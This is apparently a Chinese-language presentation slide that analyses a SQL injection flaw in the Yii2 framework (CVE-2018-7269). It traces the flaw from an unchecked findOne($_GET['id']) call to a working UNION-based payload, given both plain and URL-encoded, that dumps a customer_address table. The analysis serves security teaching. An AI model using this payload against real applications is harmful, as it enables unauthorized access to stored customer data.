

# Yii2 框架级SQL注入翻车分析(CVE-2018-7269)
SELECT * FROM `user` WHERE `id`=‘1’
DB::select('select * from user where id = :id’, [id' => ‘1’])
DB::table('user')->where([‘id’=>’1'])->first();
User::findOne(1)
User::findOne($_GET[‘id’])
URL: ?id[id`]=1
SELECT * FROM `user` WHERE `id` `=‘1’ 报错
SELECT * FROM `user` WHERE `id` = -1 or 1=1 ;#`=‘1’
id[`id` = -1 or 1=1 union select * from customer_address;#]
id%5B%60id%60%20%3D%20-1%20or%201%3D1%20union%20select%20*%20from%20customer_address%3B%23%5D%0A